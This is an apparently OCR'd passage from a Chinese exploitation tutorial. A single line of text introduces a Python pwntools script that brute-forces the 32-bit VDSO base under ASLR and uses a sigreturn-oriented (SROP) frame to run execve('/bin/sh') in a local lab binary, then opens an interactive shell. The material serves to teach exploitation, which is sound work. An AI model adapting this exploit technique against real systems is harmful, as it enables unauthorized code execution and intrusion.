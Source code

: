 打开 ASLR 之后对 VDSO 进行爆破（32 位是 $\frac{1}{256}$ 的概率）：

```python
#!/usr/bin/env python
from pwn import *

bin_sh_addr = 0x804a020
bss_addr = 0x804a030
vdso_range = range(0xf7600000, 0xf7700000, 0x1000)

def bruteforce():
    global p
    context.arch = 'i386'
    p = process('./main')
    global vdso_addr
    vdso_addr = random.choice(vdso_range)
    print 'Try vdso %s' % hex(vdso_addr)
    payload = 'A' * 0x110
    frame = SigreturnFrame(kernel="i386")
    frame.eax = constants.SYS_execve
    frame.ebx = bin_sh_addr
    frame.eip = vdso_addr + 0xb76 # address of int 0x80
    frame.esp = bss_addr
    frame.ebp = bss_addr
    frame.gs = 0x63
    frame.cs = 0x23
    frame.es = 0x2b
    frame.ds = 0x2b
    frame.ss = 0x2b
    ret_addr = vdso_addr + 0xb71 # address of sigreturn
    payload += p32(ret_addr) + str(frame)
    p.recvuntil('> ')
    p.send(payload)
    p.sendline('echo pwned')
    data = p.recvuntil('pwned')
    if data != 'pwned':
        info('Failed')
    return

if __name__ == '__main__':
    global p, vdso_addr
    i = 1
    while True:
        print 'Try %d' % i
        try:
            bruteforce()
        except Exception as e:
            info('Wrong VDSO')
            p.close()
            i += 1
            continue
        info('vdso_addr = ' + hex(vdso_addr))
        break
    p.interactive()
```
